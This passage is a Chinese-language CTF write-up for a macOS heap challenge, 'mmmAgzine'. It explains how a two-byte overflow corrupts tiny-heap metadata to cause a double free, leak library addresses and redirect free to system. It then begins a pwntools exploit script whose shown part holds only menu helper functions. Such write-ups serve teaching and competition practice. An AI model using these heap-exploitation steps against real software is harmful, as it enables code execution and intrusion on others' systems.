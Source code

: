 ### 参考资料：

[str::repeat - stable wildcopy exploit | str_repeat_exploit (saaramar.github.io)](https://saaramar.github.io/str_repeat_exploit/)

[[stable\] std: Check for overflow in `str::repeat` by alexcrichton · Pull Request #54397 · rust-lang/rust (github.com)](https://github.com/rust-lang/rust/pull/54397)

https://nvd.nist.gov/vuln/detail/CVE-2018-1000810
## mmmAgzine

题目考查macos 10.15.7版本下tiny heap region metadata破坏造成double free的利用。由于macOS开机后各个库装载地址不变的特性，首先泄露库的地址。程序没有开启pie并给出了magzine_list的地址。由于macos会根据随机选择不同region进行堆的分配，我们可通过拼接name来实现低位堆地址的泄露，为方便后续利用，申请三个堆至同一region中。magic函数存在两字节的溢出，可通过该溢出将指向堆的指针指向metadata，并通过edit函数修改metadata，通过此将已释放的block标记为未释放，实现double free。然后通过修改block的previous域来实现任意地址分配，将chunk分配至default malloc zone中泄露函数指针，进而计算出libsystem_malloc.dylib的装载地址。由于程序未开启PIE，cookie为固定值0，可直接伪造prev和next指针。然后根据各个库之间的偏移计算出libsystem_c.dylib的地址，并获得system函数的地址。然后就是getflag，跟泄露库地址的过程相同，利用任意地址分配修改la_symbol_ptr@free（类似于linux下的got表）的值为system，调用free触发system，通过getflag来获得flag。

~~~python
#!/usr/bin/python3
# coding=utf-8
from pwn import *

local = 0
ip = '172.83.156.145'
port = 19091
proc = './mmmAgzine'

context.log_level = 'debug'

r = lambda x=4096: io.recv(x)
ru = lambda x: io.recvuntil(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
l64 = lambda: u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))
su = lambda x: success('%s >> %s' % (x, hex(eval(x)))) if type(eval(
    x)) == int else success('%s >> %s' % (x, eval(x)))


def add(idx, name, sz):
    ru('You Step ## ')
    sl(str(1))
    ru('Please input chapter index ## ')
    sl(str(idx))
    ru('Please input chapter name ## ')
    s(name)
    ru('Please input chapter size ## ')
    sl(str(sz))


def edit(idx, ctt):
    ru('You Step ## ')
    sl(str(2))
    ru('Please input chapter index ## ')
    sl(str(idx))
    ru('Please input new chapter content ## ')
    s(ctt)


def dele(idx):
    ru('You Step ## ')
    sl(str(3))
    ru('Please input chapter index ## ')
    sl(str(idx))
~~~